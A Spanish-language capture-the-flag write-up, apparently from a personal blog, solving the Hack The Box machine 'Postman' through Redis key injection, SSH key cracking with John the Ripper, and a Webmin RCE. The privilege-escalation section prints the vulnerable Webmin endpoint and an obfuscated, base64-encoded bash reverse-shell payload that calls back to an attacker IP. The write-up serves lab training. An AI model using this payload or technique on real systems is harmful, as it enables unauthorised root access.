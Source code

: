 ```yaml
---
layout: post
title: Write-Up Máquina Postman HTB
date: 2021-01-14 01:28 +0800
last_modified_at: 2021-01-14 01:28 +0800
tags: [htb, writeup, ssh, Redis, Webmin, Linux]
toc:  true
---
```

![Postman-Card](/assets/imagenes/2021-01-14-postman-HTB/Postman-card.png)

---
## Introducción

La máquina Postman corre ins sistema linux de 64 bits y tiene un nivel de deificultad fácil. Para la explotación inicial, vamos a hacer uso de una vulnerabilidad de escritura de ficheros que afecta al servicio Redis entre las versiones 4.0 y 5.0. Posteriormente a esto vamos a utilizar una clave privada que se encentra en un directorio de la maquina para realizar un movimiento lateral y asi conseguir el user. Para la escalada de privilegios, vamos a hacer uso de una vulnerabilidad de rce en el servicio webmin con la que obtendremos una shell reversa.

---
## Escaneo

![Postman-nmap](/assets/imagenes/2021-01-14-postman-HTB/Postman-nmap.png)

El escaneo de la maquina nos revela que tenemos abiertos los puertos:
* 22 ----> SSH
* 80 ----> http
* 6379 --> Redis
* 10000 -> http

### Puerto 80 (apache)

En el puerto 80 nos encontramos con una web que dice estar en construccion:

![Postman-web](/assets/imagenes/2021-01-14-postman-HTB/Postman-web.png)

En este caso la web no aloja nada que nos interese para la explotación.

### Puerto 3679 (Redis)

Buscando informacion sobre la version de redis encontramos un articulo de medium que habla sobre [como obtener una rce en Redis](https://medium.com/@knownsec404team/rce-exploits-of-redis-based-on-master-slave-replication-ef7a664ce1d0).
Para nuestro caso vamos a modificar un poco los comandos que ejecuta, pero la base es la misma.
El procedimiento que vamos a seguir en este caso es crear un par de claves RSA  e inyectarlas al servidor Redis para escribirlas en el fichero authorized_keys del user redis.

### Puerto 10000 (Webmin)

En el puerto 10000 nos encontramos un webmin desactualizado del que no tenemos ningun tipo de credencial.

---

## Explotación

Lo primero, vamos a generar nuestro par de claves:

![Postman-id-rsa-redis](/assets/imagenes/2021-01-14-postman-HTB/Postman-id-rsa-redis.png)

Una vez generadas vamos a empezar a interactuar con el servidor redis para para inyectar nuestra clave publica en las claves autorizadas.

![Postman-explotacion](/assets/imagenes/2021-01-14-postman-HTB/Postman-explotacion-redis.png)

Una vez hecho esto, le asignamos los permisos correctos a nuestra clave privada (600) y nos conectamos por ssh.

![Postman-ssh](/assets/imagenes/2021-01-14-postman-HTB/Postman-ssh-redis.png)

---

## Movimiento lateral

Si nos vamos al directorio /opt, veremos un fichero llamado id_rsa.bak el cual es propiedad del user Matt.

![Postman-id_rsa.bak-dir](/assets/imagenes/2021-01-14-postman-HTB/Postman-id-rsa-matt-bak-opt.png)

Ya que tenemos la clave privada vamos a copiarla y a intentar crackearla con la herramienta john the ripper.
Pero primero tenemos que pasar la clave privada a un formato entendible para john, porlo que vamos a isar la herramienta `/usr/share/john/ssh2john.py`. El comando quedaria de la sigiente manera:
* /usr/share/john/ssh2john.py id_rsa.bak > id_rsa-bak.txt (Para las ultimas versiones de ParrotOs y Kali que no traen el paquete python hay que editar la primera linea del fichero y cambiar *python* por **python2.7**).

Una vez ejecutado ya podemos intentar crackear la clave.

![Postman-cracked-Matt](/assets/imagenes/2021-01-14-postman-HTB/Postman-cracked-matt.png)

**¡¡Ya tenemos una posible password para el user Matt!!**

Vamos a probarla.

![Postman-su-Matt](/assets/imagenes/2021-01-14-postman-HTB/Postman-su-Matt-succesful.png)

Ya somos Matt.

![Postman-Matt-flag](/assets/imagenes/2021-01-14-postman-HTB/Postman-prueba-Matt.png)

---

## Escalada de privilegios

Para la escalada de privilegios nos vamos a aprovechar de una vulneravilidad en el servicio webmin que nos permitira llamar a una shell reversa a traves de bash.

Primero vamos a encodear el comando en base64.

![Postman-bash-payload](/assets/imagenes/2021-01-14-postman-HTB/Postman-bash-payload.png)

Ahora generaremos el payload que vamos a mandar al servidor.

![Postman-peticion](/assets/imagenes/2021-01-14-postman-HTB/Postman-peticion.png)

* URL: 10.10.10.160:10000/package-updates/update.cgi
* Method: POST
* payload: u=acl%2Fapt&u=$(command)

En nuestro caso la string del comando `echo${IFS}YmFzaCAtYyAnYmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xNi8xMjM0IDA%2bJjEn|base64${IFS}-d|bash`.
${IFS} se usa para sustituir los espacios y %2b es para sustituir los simbolos + y que no se transformen en espacios.

Con el listener levantado reciviremos la conexion.

![Postman-rev-shell-root](/assets/imagenes/2021-01-14-postman-HTB/Postman-rev-shell-root.png)









